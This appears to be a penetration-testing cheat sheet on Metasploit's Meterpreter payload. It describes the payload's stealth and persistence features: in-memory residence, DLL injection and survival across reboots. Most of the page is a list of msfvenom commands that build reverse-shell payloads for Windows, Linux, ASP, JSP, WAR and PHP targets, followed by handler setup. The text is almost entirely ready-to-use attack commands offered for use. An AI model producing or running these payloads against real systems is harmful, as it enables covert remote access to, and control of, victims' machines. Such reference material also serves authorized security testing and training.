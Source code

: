 * * *

# Meterpreter
The Meterpreter Payload is a specific type of multi-faceted, extensible Payload that uses DLL injection to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes. Furthermore, Meterpreter resides entirely in the memory of the remote host and leaves no traces on the hard drive, making it difficult to detect with conventional forensic techniques.

```bash
msf6 <TYPE>(<MODULE>) > grep meterpreter show payloads
```

## Meterpreter Shells
windows/meterpreter_reverse_https is actually a much more powerful choice because of the encrypted channel, and it allows you to disconnect the payload (and exit msfconsole) without terminating it. And then the payload will automatically get back to you as soon as you set up the handler again.

### MSFvenom Payloads
```bash
# Staged Payloads for Windows
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Stageless Payloads for Windows
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Staged Payloads for Linux
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Stageless Payloads for Linux
$ msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

# asp	
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

# jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp

# war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war

# php
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
``` 

### Setting Up Multi/Handler
```bash
msf6 > use multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
```

